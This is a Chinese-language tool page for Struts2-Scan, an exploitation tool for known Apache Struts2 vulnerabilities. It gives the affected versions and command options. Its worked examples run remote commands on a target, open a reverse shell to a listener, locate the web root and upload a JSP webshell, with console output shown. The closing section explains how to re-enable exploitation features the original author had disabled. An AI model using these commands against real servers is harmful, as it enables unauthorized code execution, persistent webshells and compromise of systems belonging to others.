 # Struts2-Scan 漏洞验证

## 工具地址

[Struts2-Scan](https://github.com/HatBoy/Struts2-Scan)

## 工具描述

- Struts2漏洞利用扫描工具，基于互联网上已经公开的Structs2高危漏洞exp的扫描利用工具，目前支持的漏洞如下: S2-001, S2-003, S2-005, S2-007, S2-008, S2-009, S2-012, S2-013, S2-015, S2-016, S2-019, S2-029, S2-032, S2-033, S2-037, S2-045, S2-046, S2-048, S2-052, S2-053, S2-devMode, S2-057
- 支持单个URL漏洞检测和批量URL检测，至此指定漏洞利用，可获取WEB路径，执行命令，反弹shell和上传文件，注意，并不是所有的漏洞均支持上述功能，只有部分功能支持

## 运行环境

- Python3.6.X及其以上版本
- 第三方库: click, requests, bs4
- 测试环境: Ubuntu 16.04
- 漏洞环境已上传，参考地址：
  - https://github.com/Medicean/VulApps/tree/master/s/struts2/
  - https://github.com/vulhub/vulhub/tree/master/struts2

## 工具参数

```
Usage: Struts2Scan.py [OPTIONS]

  Struts2批量扫描利用工具

Options:
  -i, --info          漏洞信息介绍
  -v, --version       显示工具版本
  -u, --url TEXT      URL地址
  -n, --name TEXT     指定漏洞名称, 漏洞名称详见info
  -f, --file TEXT     批量扫描URL文件, 一行一个URL
  -d, --data TEXT     POST参数, 需要使用的payload使用{exp}填充, 如: name=test&passwd={exp}
  -c, --encode TEXT   页面编码, 默认UTF-8编码
  -p, --proxy TEXT    HTTP代理. 格式为http://ip:port
  -t, --timeout TEXT  HTTP超时时间, 默认10s
  -w, --workers TEXT  批量扫描进程数, 默认为10个进程
  --header TEXT       HTTP请求头, 格式为: key1=value1&key2=value2
  -e, --exec          进入命令执行shell
  --webpath           获取WEB路径
  -r, --reverse TEXT  反弹shell地址, 格式为ip:port
  --upfile TEXT       需要上传的文件路径和名称
  --uppath TEXT       上传的目录和名称, 如: /usr/local/tomcat/webapps/ROOT/shell.jsp
  -q, --quiet         关闭打印不存在漏洞的输出，只保留存在漏洞的输出
  -h, --help          Show this message and exit.
```

## 使用例子

### 查看漏洞详细信息:

```
$ python3 Struts2Scan.py --info

 ____  _              _       ____    ____                  
/ ___|| |_ _ __ _   _| |_ ___|___ \  / ___|  ___ __ _ _ __  
\___ \| __| '__| | | | __/ __| __) | \___ \ / __/ _` | '_ \ 
 ___) | |_| |  | |_| | |_\__ \/ __/   ___) | (_| (_| | | | |
|____/ \__|_|   \__,_|\__|___/_____| |____/ \___\__,_|_| |_|

                                      Author By HatBoy        

[+] 支持如下Struts2漏洞:
[+] S2-001:影响版本Struts 2.0.0-2.0.8; POST请求发送数据; 默认参数为:username,password; 支持获取WEB路径,任意命令执行和反弹shell
[+] S2-003:影响版本Struts 2.0.0-2.0.11.2; GET请求发送数据; 支持任意命令执行
[+] S2-005:影响版本Struts 2.0.0-2.1.8.1; GET请求发送数据; 支持获取WEB路径,任意命令执行
[+] S2-007:影响版本Struts 2.0.0-2.2.3; POST请求发送数据; 默认参数为:username,password; 支持任意命令执行和反弹shell
[+] S2-008:影响版本Struts 2.1.0-2.3.1; GET请求发送数据; 支持任意命令执行和反弹shell
[+] S2-009:影响版本Struts 2.0.0-2.3.1.1; GET请求发送数据,URL后面需要请求参数名; 默认为: key; 支持任意命令执行和反弹shell
[+] S2-012:影响版本Struts Showcase App 2.0.0-2.3.13; GET请求发送数据,参数直接添加到URL后面; 默认为:name; 支持任意命令执行和反弹shell
[+] S2-013/S2-014:影响版本Struts 2.0.0-2.3.14.1; GET请求发送数据; 支持获取WEB路径,任意命令执行,反弹shell和文件上传
[+] S2-015:影响版本Struts 2.0.0-2.3.14.2; GET请求发送数据; 支持任意命令执行和反弹shell
[+] S2-016:影响版本Struts 2.0.0-2.3.15; GET请求发送数据; 支持获取WEB路径,任意命令执行,反弹shell和文件上传
[+] S2-019:影响版本Struts 2.0.0-2.3.15.1; GET请求发送数据; 支持获取WEB路径,任意命令执行,反弹shell和文件上传
[+] S2-029:影响版本Struts 2.0.0-2.3.24.1(除了2.3.20.3); POST请求发送数据,需要参数; 默认参数:message; 支持任意命令执行和反弹shell
[+] S2-032:影响版本Struts 2.3.20-2.3.28(除了2.3.20.3和2.3.24.3); GET请求发送数据; 支持获取WEB路径,任意命令执行和反弹shell
[+] S2-033:影响版本Struts 2.3.20-2.3.28(除了2.3.20.3和2.3.24.3); GET请求发送数据; 支持任意命令执行和反弹shell
[+] S2-037:影响版本Struts 2.3.20-2.3.28.1; GET请求发送数据; 支持获取WEB路径,任意命令执行和反弹shell
[+] S2-045:影响版本Struts 2.3.5-2.3.31,2.5-2.5.10; POST请求发送数据,不需要参数; 支持获取WEB路径,任意命令执行,反弹shell和文件上传
[+] S2-046:影响版本Struts 2.3.5-2.3.31,2.5-2.5.10; POST请求发送数据,不需要参数; 支持获取WEB路径,任意命令执行,反弹shell和文件上传
[+] S2-048:影响版本Struts 2.3.x with Struts 1 plugin and Struts 1 action; POST请求发送数据; 默认参数为:username,password; 支持任意命令执行和反弹shell
[+] S2-053:影响版本Struts 2.0.1-2.3.33,2.5-2.5.10; POST请求发送数据; 默认参数为:username,password; 支持任意命令执行和反弹shell
[+] S2-devMode:影响版本Struts 2.1.0-2.3.1; GET请求发送数据; 支持获取WEB路径,任意命令执行和反弹shell
```

### 单个URL漏洞检测:

```
$ python3 Struts2Scan.py -u http://192.168.100.8:8080/index.action

 ____  _              _       ____    ____                  
/ ___|| |_ _ __ _   _| |_ ___|___ \  / ___|  ___ __ _ _ __  
\___ \| __| '__| | | | __/ __| __) | \___ \ / __/ _` | '_ \ 
 ___) | |_| |  | |_| | |_\__ \/ __/   ___) | (_| (_| | | | |
|____/ \__|_|   \__,_|\__|___/_____| |____/ \___\__,_|_| |_|

                                      Author By HatBoy        

[+] 正在扫描URL:http://192.168.100.8:8080/index.action
[*] ----------------results------------------
[*] http://192.168.100.8:8080/index.action 存在漏洞: S2-046
[*] http://192.168.100.8:8080/index.action 存在漏洞: S2-016
[*] http://192.168.100.8:8080/index.action 存在漏洞: S2-045
[*] http://192.168.100.8:8080/index.action 存在漏洞: S2-015
[*] http://192.168.100.8:8080/index.action 存在漏洞: S2-009
[*] http://192.168.100.8:8080/index.action 存在漏洞: S2-012
```

### 批量漏洞检测:

```
$ python3 Struts2Scan.py -f urls.txt
```

### POST数据:

```
$ python3 Struts2Scan.py -u http://192.168.100.8:8080/index.action -d name=admin&email=admin&age={exp}
```

### 指定漏洞名称利用:

```
# 命令执行
$ python3 Struts2Scan.py -u http://192.168.100.8:8080/index.action -n S2-016 --exec

 ____  _              _       ____    ____                  
/ ___|| |_ _ __ _   _| |_ ___|___ \  / ___|  ___ __ _ _ __  
\___ \| __| '__| | | | __/ __| __) | \___ \ / __/ _` | '_ \ 
 ___) | |_| |  | |_| | |_\__ \/ __/   ___) | (_| (_| | | | |
|____/ \__|_|   \__,_|\__|___/_____| |____/ \___\__,_|_| |_|

                                      Author By HatBoy        

>>>ls -la
total 136
drwxr-sr-x 1 root staff  4096 May  5  2017 .
drwxrwsr-x 1 root staff  4096 May  5  2017 ..
-rw-r----- 1 root root  57092 Apr 13  2017 LICENSE
-rw-r----- 1 root root   1723 Apr 13  2017 NOTICE
-rw-r----- 1 root root   7064 Apr 13  2017 RELEASE-NOTES
-rw-r----- 1 root root  15946 Apr 13  2017 RUNNING.txt
drwxr-x--- 1 root root   4096 May  5  2017 bin
drwx--S--- 1 root root   4096 Jul 12 14:54 conf
drwxr-sr-x 3 root staff  4096 May  5  2017 include
drwxr-x--- 2 root root   4096 May  5  2017 lib
drwxr-x--- 1 root root   4096 Jul 12 14:54 logs
drwxr-sr-x 3 root staff  4096 May  5  2017 native-jni-lib
drwxr-x--- 2 root root   4096 May  5  2017 temp
drwxr-x--- 1 root root   4096 Jul 12 14:54 webapps
drwxr-x--- 1 root root   4096 Jul 12 14:54 work
>>>

# 反弹shll
$ python3 Struts2Scan.py -u http://192.168.100.8:8080/index.action -n S2-016 --reverse 192.168.100.8:8888

 ____  _              _       ____    ____                  
/ ___|| |_ _ __ _   _| |_ ___|___ \  / ___|  ___ __ _ _ __  
\___ \| __| '__| | | | __/ __| __) | \___ \ / __/ _` | '_ \ 
 ___) | |_| |  | |_| | |_\__ \/ __/   ___) | (_| (_| | | | |
|____/ \__|_|   \__,_|\__|___/_____| |____/ \___\__,_|_| |_|

                                      Author By HatBoy        

[*] 请在反弹地址处监听端口如: nc -lvvp 8080

# 获取WEB路径
$ python3 Struts2Scan.py -u http://192.168.100.8:8080/index.action -n S2-016 --webpath

 ____  _              _       ____    ____                  
/ ___|| |_ _ __ _   _| |_ ___|___ \  / ___|  ___ __ _ _ __  
\___ \| __| '__| | | | __/ __| __) | \___ \ / __/ _` | '_ \ 
 ___) | |_| |  | |_| | |_\__ \/ __/   ___) | (_| (_| | | | |
|____/ \__|_|   \__,_|\__|___/_____| |____/ \___\__,_|_| |_|

                                      Author By HatBoy        

[*] /usr/local/tomcat/webapps/ROOT/

# 上传shell
$ python3 Struts2Scan.py -u http://192.168.100.8:8080/index.action -n S2-016 --upfile shell.jsp --uppath /usr/local/tomcat/webapps/ROOT/shell.jsp

 ____  _              _       ____    ____                  
/ ___|| |_ _ __ _   _| |_ ___|___ \  / ___|  ___ __ _ _ __  
\___ \| __| '__| | | | __/ __| __) | \___ \ / __/ _` | '_ \ 
 ___) | |_| |  | |_| | |_\__ \/ __/   ___) | (_| (_| | | | |
|____/ \__|_|   \__,_|\__|___/_____| |____/ \___\__,_|_| |_|

                                      Author By HatBoy        

[+] 文件上传成功!
```

## 关于

因部分原因，原作者关闭漏洞利用，如需利用可删除以下代码使用

![](http://wikioss.peiqi.tech/vuln/struts-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![](http://wikioss.peiqi.tech/vuln/struts-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)